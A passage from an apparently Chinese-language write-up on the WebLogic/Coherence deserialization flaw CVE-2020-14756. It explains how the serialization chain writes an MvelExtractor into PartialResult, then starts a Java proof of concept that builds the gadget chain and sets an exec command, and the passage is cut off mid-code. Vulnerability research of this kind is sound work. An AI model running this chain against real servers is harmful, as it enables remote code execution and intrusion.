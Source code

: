 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014a6804782bd03ace.jpg)

在漏洞分析时我们提到要让`PartialResult.m_comparator`的值为`MvelExtractor`实例，那怎么向输出流中写入`PartialResult.m_comparator`呢？

步入`ExternalizableHelper.writeObject(out, this.m_oValue)`之后会发现这个`writeExternal`方法是深度递归的过程。它在判断`PartialResult`也是一个实现了`ExternalizableLite`的类后继续调用`PartialResult#writeExternal()`

[![](https://p4.ssl.qhimg.com/t011206ac08c3a9d6d9.jpg)](https://p4.ssl.qhimg.com/t011206ac08c3a9d6d9.jpg)

`PartialResult#writeExternal()`会调用`ExternalizableHelper.writeObject(out, this.m_comparator)`继续向输出流写入`PartialResult`内部属性`m_comparator`，这就帮我们解决了问题。我们只需创建实例后令`PartialResult.m_comparator=new MvelExtractor(xxx);`

[![](https://p3.ssl.qhimg.com/t01e8e286282f838f9b.jpg)](https://p3.ssl.qhimg.com/t01e8e286282f838f9b.jpg)

步入`ExternalizableHelper.writeObject(out, this.m_comparator)`，判断`this.m_comparator`也就是`MvelExtractor`也是实现了`ExternalizableLite`的类，继而再次递归调用`MvelExtractor#writeExternal`，把`this.m_sExpr`写入输出流

[![](https://p4.ssl.qhimg.com/t01c24ca436a5a7d0a6.jpg)](https://p4.ssl.qhimg.com/t01c24ca436a5a7d0a6.jpg)

至此，我们在漏洞分析中用到的所有变量都可以被写入输出流.



## POC-除12.1.3

```
package weblogic.t3;

import com.tangosol.coherence.rest.util.extractor.MvelExtractor;
import com.tangosol.coherence.servlet.AttributeHolder;
import com.tangosol.util.aggregator.TopNAggregator;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class CVE_2020_14756 `{`

    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, NoSuchFieldException `{`

        String mvel = "";
        MvelExtractor mvelExtractor = new MvelExtractor(mvel);


        TopNAggregator.PartialResult partialResult = new TopNAggregator.PartialResult(mvelExtractor,2);

        AttributeHolder attributeHolder = new AttributeHolder();
        Method setInternalValue = attributeHolder.getClass().getDeclaredMethod("setInternalValue",Object.class);
        setInternalValue.setAccessible(true);
        setInternalValue.invoke(attributeHolder,partialResult);

        partialResult.add(1);

        Field m_sExpr = mvelExtractor.getClass().getDeclaredField("m_sExpr");
        m_sExpr.setAccessible(true);

        String mvel1 = "Runtime.getRuntime().exec(\"touch /tmp/CVE_2020_14756\")";
```